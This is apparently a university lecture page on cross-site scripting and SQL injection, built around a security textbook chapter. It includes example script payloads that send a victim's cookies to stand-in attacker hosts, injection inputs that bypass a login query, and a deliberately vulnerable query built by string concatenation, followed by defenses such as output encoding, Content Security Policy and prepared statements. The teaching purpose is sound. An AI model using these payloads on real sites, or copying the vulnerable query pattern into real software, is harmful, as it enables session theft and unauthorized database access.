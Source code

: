 ```yaml
---
layout: ../../../layouts/SemesterMarkdown.astro
---
```



# XSS and SQL injection

## Questions on the readings

The readings today are from
[Computer Security and the Internet](https://people.scs.carleton.ca/~paulv/toolsjewels.html),
[Chapter 9](https://people.scs.carleton.ca/~paulv/toolsjewels/TJrev1/ch9-rev1.pdf),
sections 9.6, 9.7.

## XSS: cross-site scripting

- injecting malicious scripts into HTML tags or web pages

  - rendering the HTML causes the script to be executed

### Stored or persistent XSS

```html
Here is a picture of my dog <img id="mydogpic" src="dog.jpg" />
<script>
  document.getElementById("mydogpic").src =
    "http://badsite.com/dog.jpg?arg1=" + document.cookie;
</script>
```

- input from an attacker is stored on a website (e.g. in a database) without
  being made safe to render and is then retrieved by the victim
- possible on any site that allows users to upload content (e.g. social media,
  discussion forums)
- in the example above, the attacker changes the `src` attribute of the image to
  be a URL that (a) goes to the attacker's site and (b) includes all of the
  user's cookies for the original site
- since images are loaded automatically, when a user visits a page with this
  content, the browser will automatically send that user's cookies to the
  attacker

### Reflected (non-persistent) XSS

```html
Our favorite site for deals is www.good.com: <a href=’http://www.good.com/ <script>document.location="http://bad.com/dog.jpg?arg1="+document.cookie; </script>’> Click here </a>
```

- attacker input is immediately returned, e.g. in an error message or search
  results, without the attacker input being made safe to render
- the example above takes advantage of a site that returns 404 errors with
  `File-not-found: filepath-requested`
- when the user clicks the link, the browser will visit the URL and the good
  site will return a 404 page:

```html
File-not-found:
<script>
  document.location="http://bad.com/
  dog.jpg?arg1=" + document.cookie;
</script>
```

- this sends the user to `bad.com`, and the attacker also gets the user's
  cookies for the good site

<Image src={figure_9_6} alt="XSS attacks" />

### XSS impacts

- once you allow an attacker to inject JavaScript, they can do a lot

  - browser redirection
  - access cookies
  - access browser-stored data for a website
  - rewrite the document being displayed
  - exploit browser vulnerabilities

### Defenses

- sanitize input by removing tags
  - a good framework (e.g. React, Vue) does this for you
- sanitize output by using encoding, e.g. `&lt;` for left angle bracket
- [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
  - server can specify which domains are allowed to execute scripts

## SQL Injection

- why a vulnerability exists

  - databases store information in tables
  - scripts construct SQL queries
  - scripts use input from cookies, variables, users

- SQL injection

  - crafting input so an attacker chooses an SQL command to be executed

- attack types

  - extracting data from the database
  - modifying the database
  - unauthorized account access
  - denial of service

<Image src={figure_9_7} alt="web architecture" />

### Example attacks

- imagine a server constructing a SQL query using input:

```js
query =
  "SELECT * FROM pswdtab WHERE username=’" + un + "’ AND password=’" + pw + "’";
```

- normal use:

```sql
SELECT * FROM pswdtab WHERE username=’sam’ AND password=’abcde’
```

- attacker sends username = `“root’ --”`:

```sql
SELECT * FROM pswdtab WHERE username=’root’ -- AND···
```

- note, `--` indicates a comment, so the rest of the SQL statement is ignored

- attacker sends username = ` “’OR 1=1 --”:

```sql
SELECT * FROM pswdtab WHERE username=’’ OR 1=1 --
```

- note, this provides an OR condition that is always true

### Defenses

- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
  recommends prepared statements

  - prepare the query and then give variables to SQL database
  - binding parameters to a SQL query will allow the database to automatically
    handle escaping of characters

- Java example:

```java
// This should REALLY be validated too
String custname = request.getParameter("customerName");
// Perform input validation to detect attacks
String query = "SELECT account_balance FROM user_data WHERE user_name = ? ";
PreparedStatement pstmt = connection.prepareStatement( query );
pstmt.setString( 1, custname);
ResultSet results = pstmt.executeQuery( );
```

- Rust example:

```rust
// Input from CLI args but could be anything
let username = std::env::args().last().unwrap();

// Using built-in macros (compile time checks)
let users = sqlx::query_as!(
        User,
        "SELECT * FROM users WHERE name = ?",
        username
    )
    .fetch_all(&pool)
    .await
    .unwrap();

// Using built-in functions
let users: Vec<User> = sqlx::query_as::<_, User>(
        "SELECT * FROM users WHERE name = ?"
    )
    .bind(&username)
    .fetch_all(&pool)
    .await
    .unwrap();
```

- can also use safely-constructed stored procedures, which are similar
